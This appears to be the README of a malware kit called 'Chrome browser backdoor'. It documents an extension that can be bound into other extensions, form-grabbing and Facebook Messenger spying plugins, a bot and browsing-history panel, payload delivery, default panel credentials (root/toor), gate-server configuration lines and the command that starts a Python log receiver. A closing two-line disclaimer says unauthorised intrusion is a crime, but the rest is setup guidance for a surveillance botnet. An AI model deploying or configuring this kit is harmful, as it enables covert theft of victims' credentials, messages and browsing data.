 ![Chrome browser backdoor](http://s24.postimg.org/xls0xq1ud/logochromebackdoor2.png)

## VIDEO
+ [Install guide](https://www.youtube.com/watch?v=uc4817555Fc)
+ [Binder guide](https://www.youtube.com/watch?v=-dndxUl5a1E)
+ [Module guide](https://www.youtube.com/watch?v=BO05H_4TbSE)
+ [Form grabber plugins](https://www.youtube.com/watch?v=c_u6ec87GZs)
+ [Facebook MessengerSpy plugins](https://www.youtube.com/watch?v=2js1g8dZhjQ)
+ [Jabber Notifier/ Hide Panel](https://www.youtube.com/watch?v=2RgrIiXc4RU)
+ [Windows infection](https://www.youtube.com/watch?v=vnsZVMTXOJQ)

## Information

Username panel : root

Password panel : toor

## Network

Backdoor => Relais => Web Panel

## Extension

![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate on script

js/check.js

web : show.php

```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## Module injector ##
![Chrome modul Injector](http://img4.hostingpics.net/pics/335930Capturedecran20160304a183405.png)


## Extentions binder (Inject)
![Chrome Extension Binder](https://s31.postimg.org/s568z43fv/Capture_d_e_cran_2016_07_04_a_16_15_33.png)

![Chrome Extension Binder](http://img15.hostingpics.net/pics/838684Capturedecran20160304a110804.png)

![Chrome Extension Binder](http://img15.hostingpics.net/pics/200669Capturedecran20160304a111014.png)

![Chrome Extension Binder](http://img15.hostingpics.net/pics/722273Capturedecran20160304a110922.png)

![Chrome Extension Binder](http://img15.hostingpics.net/pics/530976Capturedecran20160304a110908.png)

## Bot listing
![Backdoor chrome bots](http://s23.postimg.org/ti2uzy5rf/Capture_d_e_cran_2016_03_01_a_15_46_16.png)


## History listing
![Backdoor chrome history](http://s29.postimg.org/ofjozpb2f/Capture_d_e_cran_2016_03_01_a_16_04_43.png)


## Url checker & Payload 

Make it on webpanel

![backdoor chrome panel](http://img15.hostingpics.net/pics/130725Capturedecran20160114a112508.png)

## Get the log here

![backdoor chrome panel](http://img15.hostingpics.net/pics/277755panelback.png)

## lock.php

Update lock page with 1

![Backdoor lock](http://s27.postimg.org/vahc0lb8z/lock.png)

## Python receiver 

Update  GATE var on Cbackdoor.py

```Python
GATE = "http://localhost:8888/chromebackdoor/web/gate.php?last=1"
```

Start 

```Shell
python CBackdoor.py
```
![Backdoor chrome python receiver](http://s12.postimg.org/ywkao1mv1/Capture_d_e_cran_2016_01_18_a_19_43_39.png)

+ pour rappel, infiltrer, surveiller, un système informatique sans autorisation est un délit
+ reminder, infiltrate, monitor, computer system without authorization is a crime
